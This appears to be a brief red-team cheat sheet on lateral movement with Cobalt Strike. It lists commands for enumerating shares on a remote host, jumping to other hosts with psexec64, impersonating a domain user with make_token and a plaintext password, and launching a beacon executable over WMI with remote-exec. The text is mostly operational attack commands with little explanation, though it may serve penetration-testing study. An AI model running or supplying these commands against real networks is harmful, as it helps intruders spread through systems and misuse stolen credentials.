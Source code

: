 ### Lateral Moment using.....
---

Listing available shares on remote host:

    shell net view \\192.168.56.111 /all

Cobalt Strike has 3 features for executing beacon, command or code.

In-built command
1. jump

Using PsExec

    In new version
    jump psexec64 remote_host listenrname
    
    In old version
    psexec remote_host share_name listener
    
To use plaintext creds wih jump or remote-exec, always use make_token first

    make_token [Domain\]user_name password
    jump psexec64 remote_host listenrname

In-built command
2. Remote-exec

remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
